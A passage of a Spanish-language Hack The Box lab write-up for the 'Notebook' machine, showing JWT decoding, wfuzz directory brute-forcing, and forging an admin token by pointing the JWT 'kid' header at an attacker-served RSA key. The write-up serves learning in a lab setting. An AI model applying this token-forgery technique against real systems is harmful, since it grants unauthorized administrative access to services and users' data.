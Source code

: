 SI decodificamos la auth:
```console
└─$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6...8a_FgO79JM" | tr -d "." | base64 -d
{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}{"username":"cucuxii","email":"cucuxii@htb.htb","admin_cap":0}base64: entrada inválida
```
Supongo que para entrar en admin hay que cocinar una cookie con "admin_cap":"1" pero para eso necestariamos una
llave.

Antes de ponernos con el jwt miramos si hay algo mas:
```console
└─$ wfuzz -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.230/6e1ed97a-2a06-4e7b-84a3-047e03fc347f/FUZZ
000001075:   200        61 L     125 W      2000 Ch     "notes"
└─$ wfuzz -t 200 --hc=404,401 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.230/6e1ed97a-2a06-4e7b-84a3-047e03fc347f/notes/FUZZ
000000084:   200        55 L     110 W      1705 Ch     "5"
000000430:   500        4 L      40 W       290 Ch      "add"
```

-------------------------------
# Part 3: Json Web Token exploitation

El sistema esa buscando en esta ruta ```http://localhost:7070/privKey.key``` la llave para validar la cookie.

```console
└─$ openssl genrsa -out llave.key 2048
# Nos genera una llave.key de 2048 bytes.
```

Lo que queda es copiarla, crear una jwt con ella en jwt.io:
- La llave va en el campo private key
- Cambiamos lo de *admin_cap* a 1
- La servimos desde neustro sistema -> ```sudo python3 -m http.server 80``` por tanto ```"kid": "http://10.10.14.16/llave.key"```
![notebook4](https://user-images.githubusercontent.com/96772264/210068047-5ad8fe96-ae7c-4f92-8e8b-2d869276e106.PNG)

Ya con eso tenemos el admin_panel

-----------------------------
# Part 3: Accediendo al sistema

El boton /admin_panel nos lleva a la ruta admin. Hay un sitio para subir archivos pero tambien otro con notas
```
1. Se necesita arreglar configuracion (admin) -> Hay que fixear el problema donde se ejcutan los php ":/" 
Esto puede ser un riesgo potencial para el servidor.
2. Hay una tarea que se encarga de los backups (admin) -> Los backups a menudo son necesarios. Gracias a dios que es tan facil todo en el servidor 
3. Frases del Diario de Noa (noah) -> Una diálogo de la película...
4. Están mis datos a salvo? (noah) -> Me pregunto si el administrador es lo suficiente bueno para confiar en él
```
![notebook5](https://user-images.githubusercontent.com/96772264/210068053-6ce55675-e538-4e67-9c2a-da2e6a165a60.PNG)

